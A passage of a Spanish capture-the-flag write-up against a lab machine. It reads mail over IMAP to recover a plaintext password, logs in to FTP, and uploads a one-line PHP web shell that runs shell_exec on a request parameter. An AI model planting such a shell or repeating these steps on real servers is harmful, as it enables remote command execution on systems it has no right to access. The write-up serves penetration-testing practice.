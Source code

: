 1. Seleccionar lo que hay en la papelera

    ```bash
    A6 SELECT "INBOX.Deleted Items"
    ```

1. Vemos que hay dos elementos en los items enviados, los recuperamos

    ```bash
    A7 FETCH 1:2 BODY[]
    ```

En los bodys encontramos un un mensaje que pregunta para cambiar la contraseña del usuario developer poniendo 
y la contraseña original en texto claro.
En el otro mensaje otra vez hablan del servicio **Pypi**

Con el usuario y contraseña intentamos volver a conectar con **FTP**

### Conexion con FTP {-}

```bash
ftp 10.10.10.197

> Name: developer
> Password: contraseña
#Output
Connection succesful

dir
cd dev
dir
```

Aqui vemos el contenido de la web. Nos creamos la famosa `s4vishell.php`

```php
<?php
    echo "<pre>". shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```

ahora con el ftp subimos el archivo.

```bash
put s4vishell.php
#Output
transfer complete
```

Controlamos en la web si vemos el fichero `http://sneakycorp.htb/s4vishell.php` pero tenemos un *404 NOT FOUND*.
Intentamos con otras url:

- `http://sneakycorp.htb/s4vishell.php`
- `http://10.10.10.197:8080/s4vishell.php`
- `http://10.10.10.197:8080/dev/s4vishell.php`
